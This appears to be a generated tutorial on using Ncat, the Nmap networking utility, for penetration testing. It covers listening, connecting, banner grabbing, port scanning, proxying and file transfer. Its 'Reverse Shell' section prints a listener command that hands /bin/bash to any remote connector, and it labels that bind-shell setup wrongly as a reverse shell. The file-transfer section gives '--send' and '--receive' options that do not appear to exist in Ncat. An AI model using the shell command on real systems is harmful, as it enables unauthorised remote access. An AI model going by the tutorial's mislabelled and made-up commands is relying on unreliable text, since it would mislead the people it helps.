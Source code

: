 # Detailed Documentation on Using Ncat for Network Penetration Testing

Ncat, often referred to as the "Swiss Army Knife" of networking, is a powerful networking utility that comes with the Nmap toolkit. It allows for network exploration, packet creation, and data transfer, making it an essential tool for network penetration testing. This documentation will guide you through using Ncat effectively for network penetration testing.

## Installation

Ncat is typically installed as part of the Nmap package, which is available for Linux, macOS, and Windows. Ensure you have Nmap installed on your system, and Ncat should be available as well.

### Linux (Debian/Ubuntu):

```bash
sudo apt-get install nmap
```

### Linux (Red Hat/CentOS):

```bash
sudo yum install nmap
```

### macOS:

Nmap can be installed on macOS using Homebrew:

```bash
brew install nmap
```

### Windows:

You can download the Nmap installer for Windows from the official website: [Nmap for Windows](https://nmap.org/download.html)

## Basic Usage

### 1. Listening on a Port

Ncat can listen on a specific port, waiting for incoming connections. Use the `-l` (or `--listen`) option and specify the port you want to listen on:

```bash
ncat -l <port>
```

Replace `<port>` with the desired port number. Ncat will wait for incoming connections on this port.

### 2. Connecting to a Host

To connect to a remote host on a specific port, use the hostname or IP address followed by the port number:

```bash
ncat <host> <port>
```

Replace `<host>` with the target host's hostname or IP address and `<port>` with the port number.

### 3. Data Transfer

Ncat can transfer data between the listener and the client. Anything you type on one end will be received by the other. For example, after starting a listener:

```bash
ncat -l <port>
```

You can connect to it and send a message:

```bash
ncat <host> <port>
```

### 4. Banner Grabbing

Ncat can be used for banner grabbing to gather information about the target service. For example, to grab an SSH banner:

```bash
ncat -v -n -w 2 <host> 22
```

### 5. Port Scanning

Ncat can also be used for simple port scanning to check if a port is open on a target system:

```bash
ncat -zv <host> 80
```

Replace `<host>` and `80` with the target and port you want to scan.

## Advanced Usage

### 1. SSL Encryption

Ncat supports SSL encryption for secure communication. To enable SSL, use the `--ssl` option:

```bash
ncat --ssl -l <port>
```

### 2. Reverse Shell

Ncat can be used to establish a reverse shell. On the listener side, start Ncat with the `-l` option, and on the target side, connect to the listener:

On the listener:

```bash
ncat -l -p <port> -e /bin/bash
```

On the target:

```bash
ncat <listener_ip> <port>
```

### 3. Proxying

Ncat can act as a proxy server or client to relay traffic between two hosts. For example, to set up a simple proxy server:

```bash
ncat -l -p <proxy_port> --sh-exec "ncat <target_host> <target_port>"
```

This command listens on `<proxy_port>` and forwards traffic to `<target_host>:<target_port>`.

### 4. File Transfer

Ncat can transfer files using the `--send` and `--receive` options. For example, to send a file:

On the sender:

```bash
ncat -l -p <port> --send file.txt
```

On the receiver:

```bash
ncat <sender_ip> <port> --receive file.txt
```

### 5. Scripting

Ncat allows scripting using the Lua programming language. You can create custom scripts for various networking tasks and automation.

## Conclusion

Ncat is a versatile network utility that provides a wide range of capabilities for network penetration testing. This documentation provides an overview of its capabilities, from basic usage to advanced features. Always use Ncat responsibly and ensure that you have explicit authorization to conduct network penetration tests, as unauthorized testing is illegal and unethical.
